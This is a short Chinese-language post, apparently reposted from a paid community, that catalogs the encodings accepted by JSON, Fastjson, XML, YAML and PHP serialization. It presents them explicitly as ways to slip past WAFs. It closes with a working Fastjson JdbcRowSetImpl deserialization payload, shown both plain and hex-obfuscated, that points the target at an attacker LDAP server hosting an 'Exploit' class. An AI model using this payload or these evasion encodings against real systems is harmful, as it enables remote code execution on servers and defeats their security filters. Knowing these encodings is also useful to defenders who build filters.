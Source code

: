 # 来自p师傅的知识星球
>抽空整理了一下各种序列化方式中支持的一些编码方式，我们可以在遇到一些限制、WAF的时候使用这些编码进行绕过。

### JSON：
json是最常用到的序列化方法，json中支持使用unicode编码，目标解析的时候会自动解码，
比如：`{"name": "\u0023vulhub\u0023", "age": 12}`

### Fastjson：
把Fastjson单独拎出来，因为这货除了漏洞多，即使没漏洞的最新版本，他内部存在很多奇葩的非标准操作。
比如，fastjson支持16进制编码：`{"name": "\x23vulhub\x23", "age": 12}`，这在标准的json中是不会被解析的；他还支持在json中插入注释，
比如`{"name": /*evil*/"vulhub", "age": 12}`，标准中也不支持，Jackson中可以通过开启一个选项支持这个语法；他还支持使用单引号替代双引号，
比如`{"name": 'vulhub', "age": 12}`；另外fastjson支持的各种非标准feature太多，不一一写出来了。利用这些非标准的特性，可以用来绕过很多语义化的WAF。

### XML：
xml默认支持16进制和10进制的HTML实体编码，
如`<root><name>&井35;vulhub&井x23;</name></root>`，也支持英文单词形式的实体，如`&amp;`。

### YAML：
yaml的双引号中可以使用16进制编码和unicode编码，
如`name: "\x23vulhub\u0023"`，单引号内不支持编码。

### php serialize：php的反序列化中，可以用一种长得像8进制编码，实际上是16进制编码的方式表示字符串，
具体可以参考我在星球分享过的帖子：https://t.zsxq.com/3faIYzN

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}

{"name":{"\x40\x74\x79\x70\x65":"java.lang.Class","val":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c"},"x":{"\x40\x74\x79\x70\x65":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","dataSourceName":"ldap://xxx.xxx.xxx.xxxs:1389/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}}

```
